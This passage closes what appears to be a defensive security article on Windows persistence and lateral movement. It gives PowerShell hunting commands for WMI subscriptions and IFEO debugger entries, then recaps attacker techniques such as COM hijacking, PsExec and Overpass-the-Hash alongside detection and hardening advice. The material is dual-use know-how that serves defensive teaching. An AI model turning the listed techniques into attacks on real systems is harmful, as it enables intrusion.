Get-WMIObject -Namespace root\subscription -Class __EventFilter
Get-WMIObject -Namespace root\subscription -Class CommandLineEventConsumer
Get-WMIObject -Namespace root\subscription -Class __FilterToConsumerBinding

# Scan for IFEO entries
Get-ChildItem "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options" |
    Where-Object { $_.Property -contains "Debugger" } |
    Select-Object PSChildName, @{N='Debugger';E={$_.'Debugger'}}

# Use Process Monitor (Procmon) to filter for "NAME NOT FOUND" DLL searches
# — reveals DLL hijacking opportunities
```


---


An attacker's post-compromise journey follows this chronological chain:

```
Initial Access → Persistence → Credential Harvesting → Lateral Movement → Privilege Escalation → Objective
```

In this article, we examined each phase from both the attacker's and defender's perspectives:

- **Persistence:** User manipulation, Scheduled Tasks, Registry Run Keys, BITS Jobs, WMI Event Subscriptions, COM Hijacking, IFEO Injection, and DLL Hijacking
- **Lateral Movement:** RDP, WinRM/PowerShell Remoting, SMB/PsExec, and Kerberos exploitation (PtT, Overpass-the-Hash)
- **Detection:** Sysmon, Event ID correlation, KQL pseudo-code scenarios
- **Hardening:** PAM, NLA, MFA, Least Privilege, network segmentation

> Security is a process, not a product. No single tool or rule can protect you. Meaningful protection emerges when layered defense (Defense in Depth), continuous monitoring, and proactive threat hunting are applied in concert.

**Further Reading:**
- [MITRE ATT&CK — Persistence (TA0003)](https://attack.mitre.org/tactics/TA0003/)
- [MITRE ATT&CK — Lateral Movement (TA0008)](https://attack.mitre.org/tactics/TA0008/)